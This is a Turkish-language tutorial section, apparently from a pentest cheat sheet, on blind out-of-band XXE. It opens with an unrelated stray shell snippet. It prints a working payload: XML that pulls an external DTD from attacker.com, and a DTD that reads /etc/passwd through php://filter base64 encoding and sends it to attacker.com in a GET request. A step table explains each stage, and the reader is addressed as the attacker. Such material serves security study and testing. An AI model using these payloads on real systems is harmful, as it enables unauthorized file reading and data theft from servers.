 ```
$ cat /sys/power/image_size
134217728
```


### DTD ve PHP Filtresi ile XXE OOB

Hedefe gönderilen XML

- `%sp`: Bu satır hedef sistemin dışarıdan (senin sunucundan) bir **DTD dosyası almasını** sağlar.
- `%param1;`: Bu parametre DTD içinden tanımlanacak.
- `&exfil;`: Enjekte edilen veri buraya basılır (response'a girer veya HTTP ile dışarı çıkar).


```
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT r ANY >
  <!ENTITY % sp SYSTEM "http://attacker.com/dtd.xml"> 
  %sp;
  %param1;
]>
<r>&exfil;</r>
```

##### Senin sunucundaki `dtd.xml` dosyası:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%data;'>">
```

- `%data`: Hedef sistemdeki `/etc/passwd` dosyasını okur ama doğrudan değil — önce `base64` olarak encode eder (çünkü normal metin bazı durumlarda hata çıkarır).

- `%param1`: Yeni bir `exfil` entity'si tanımlar. Bu entity, az önce okunan base64 veriyi senin sunucuna (`attacker.com`) gönderecek.

- **Sonuç olarak**: `<r>&exfil;</r>` kısmı çalıştığında, hedef sistem senin sunucuna şu şekilde bir istek yollar:

```
GET /?data=BASE64_ENCODED_ETC_PASSWD HTTP/1.1
Host: attacker.com
```

|Aşama|Açıklama|
|---|---|
|1|Hedef sistem dışarıdan DTD çeker (`attacker.com/dtd.xml`)|
|2|DTD, `php://filter` ile `/etc/passwd` dosyasını base64 olarak okur|
|3|Okunan içerik bir URL ile saldırgana gönderilir (`attacker.com/?data=...`)|
|4|Saldırgan bu URL’yi loglayarak base64 veriyi çözümleyebilir|

### 14- OOB (Out-of-Band) XXE ile Base64 Kodlu Veri Sızdırma (Blind XXE)
